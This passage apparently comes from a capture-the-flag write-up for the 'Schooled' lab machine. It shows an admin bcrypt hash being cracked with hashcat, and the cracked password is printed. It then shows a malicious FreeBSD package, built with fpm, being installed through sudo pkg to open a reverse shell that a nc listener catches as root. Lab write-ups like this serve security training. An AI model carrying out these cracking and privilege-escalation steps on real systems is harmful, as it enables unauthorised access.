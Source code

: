We are interested to these ones:

>![](imgs/20210524-021745.png)

And in particular to the admin's password (Jamie)

We can crack the hash using `hashcat`.  
The algorith used for the hash is *bcrypt*

```bash
hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt --username
```

We manage to crack the hash:

```bash
$ hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt --username --show
admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
```

## Root

>![](imgs/20210524-042322.png)

The `pkg install *` is indeed very suspicious there.

We can look it up on GTFObins and easily follow the instructions.

We create the file containing our reverse shell (I tried a couple of them before finding one that actually worked)

>![](imgs/20210524-223850.png)

Then we create the freeBSD malicious package with `fpm -n x -s dir -t freebsd -a all --before-install pwn/pwn.sh pwn`

We can send the package to the machine with `scp`


To install the package on the remote host and trigger our malicious code: `jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz`


The reverse shell works and we are root now.
```bash
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.217] from (UNKNOWN) [10.10.10.234] 15762
# whoami
root

```



